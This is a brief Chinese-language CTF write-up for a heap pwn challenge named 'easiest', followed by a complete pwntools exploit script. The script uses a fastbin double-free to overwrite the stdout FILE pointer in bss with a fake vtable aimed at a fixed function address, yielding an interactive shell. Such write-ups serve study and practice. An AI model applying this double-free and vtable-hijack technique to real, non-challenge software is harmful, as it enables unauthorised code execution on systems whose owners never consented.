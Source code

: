 你圈pwner人手Ubuntu16.04

这题有毒，我在Arch不能正常运行，IO有问题，当时做的时候弄了好久没弄出来，以为是考点

赛后我又试了Ubuntu18.04也不行，最后重新下了16.04就能了....

搞能正常运行这题就没啥问题

没给libc猜2.23的版本，不过也可以远程测一下

修改bss段stdout指针，让vtable指针指向堆地址

```python
from pwn import *
context.log_level = "debug"
bin = ELF("./easiest")
libc = bin.libc
p = bin.process()

def Debug():
    gdb.attach(p)
    pause()

def add(idx,size,data):
    p.sendlineafter("delete \n","1")
    p.sendlineafter("(0-11):",str(idx))
    p.sendlineafter("Length:",str(size))
    p.sendlineafter("C:",data)

def delete(idx):
    p.sendlineafter("delete \n","2")
    p.sendlineafter("(0-11):",str(idx))

add(10, 0x110, p64(0x400946) * (0x100 // 0x8))
add(0, 0x31, 'a')
add(1, 0x31, 'b')
delete(0)
delete(1)
delete(0)
add(0, 0x31, p64(0x602082 - 8))
add(1, 0x31, 'neo is god')
add(1, 0x31, p64(0))
Debug()
add(11,0x31, 'a' * 6 + '\x00' * 0x10 + p64(0x6020c0 - 0x88))
p.sendlineafter("delete \n","1")
p.interactive()

```

